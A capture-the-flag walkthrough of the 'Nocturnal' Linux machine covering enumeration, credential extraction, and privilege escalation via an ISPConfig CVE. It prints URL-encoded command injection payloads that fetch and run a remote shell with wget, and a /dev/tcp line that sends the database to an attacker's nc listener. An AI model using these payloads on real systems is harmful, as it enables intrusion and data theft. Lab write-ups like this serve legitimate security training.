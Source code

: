 # Nocturnal

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

## ✅ Summary

| Step | User / Access   | Technique Used                          | Result                                                                                  |
| :--- | :------------- | :-------------------------------------- | :-------------------------------------------------------------------------------------- |
| 1    | `N/A`          | Port Scanning                           | Found HTTP (nginx 1.18) and SSH (OpenSSH 8.2) services.                                 |
| 2    | `N/A`          | Username Enumeration                     | Enumerated users (`admin`, `amanda`, `tobias`) via URL parameter with ffuf.            |
| 3    | `amanda`       | File Analysis / Backup                   | Downloaded `privacy.odt` and extracted Amanda’s password.                               |
| 4    | `tobias`       | Database Access / Password Cracking      | Logged in to backend, created backup, retrieved and cracked Tobias's password.          |
| 5    | `www-data`     | Command Injection in Backup Function    | Exploited zip backup password injection to execute shell commands and retrieve DB file. |
| 6    | `N/A`          | SSH Local Port Forwarding                | Forwarded intranet port 8080 to local machine to access ISPConfig service.              |
| 7    | `root`         | ISPConfig CVE-2023-46818 Exploit        | Used code injection exploit to gain root privileges on the system.                     |



## Nmap Enumeration

```bash
[root@kali] /home/kali/Nocturnal  
❯ nmap Nocturnal.htb -sV -A
````

**Nmap Results:**

| Port   | State | Service | Version                          |
| ------ | ----- | ------- | -------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 |
| 80/tcp | open  | http    | nginx 1.18.0 (Ubuntu)            |



---

## User Enumeration

1. Register a user and log in.
2. Upload any file to check download links:

```
http://nocturnal.htb/view.php?username=<USERNAME>&file=2023.xlsx
```

3. Enumerate usernames using **ffuf**:

```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=2023.xlsx' \
-w ../Desktop/fuzzDicts/userNameDict/user.txt \
-H 'Cookie: PHPSESSID=k381a2of6lftuk6gnab5f5sapa' \
-fs 2985
```

**Discovered Users:**

* `admin`
* `amanda`
* `tobias`

4. Check files for **amanda**, find `privacy.odt`:

```bash
file privacy.odt
# Output: Zip archive, with extra data prepended
```

* Decompress and extract **password** from this file.

---

## User Password Extraction

1. Log in to the admin interface using amanda’s credentials.
2. Create a backup from the admin panel (set a password).
3. Download and decompress the backup file to retrieve database files.
4. Use amanda's password to obtain password hashes.
5. Crack **tobias’s password** successfully.

---

## Code Analysis (Post-Update)

* Database backup functionality in `admin.php`:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) return false;
    }
    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

* **Vulnerability:** Password field is directly spliced into the `zip` command; partial blacklist is insufficient.
* **Exploit:** Use URL encoding to inject commands:

```text
password=%0Abash%09-c%09"id"%0A&backup=
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```

* Transfer the database file to your machine:

```bash
www-data@nocturnal:~/nocturnal_database$ cat nocturnal_database.db > /dev/tcp/10.xx.xx.xx/8888
```

```bash
[root@kali] /home/kali/Nocturnal  
❯ nc -lvnp 8888 > nocturnal_database.db
```

---

## Root Access

1. Found intranet service on port `8080`.
2. SSH tunneling to local machine:

```bash
ssh tobias@nocturnal.htb -L 9090:127.0.0.1:8080
```

3. Identified **ISPConfig** service (possibly version 3.2).
4. Exploit **CVE-2023-46818** for code injection:

* Search: `bipbopbup/CVE-2023-46818-python-exploit`

* Use to gain root access.

* **Tip:** Check for password reuse between users and services.

---



**Takeaways:**

* Always sanitize user input properly for command execution.
* Backup files and database exports can leak credentials if not protected.
* Internal services can provide privilege escalation paths when exposed internally.
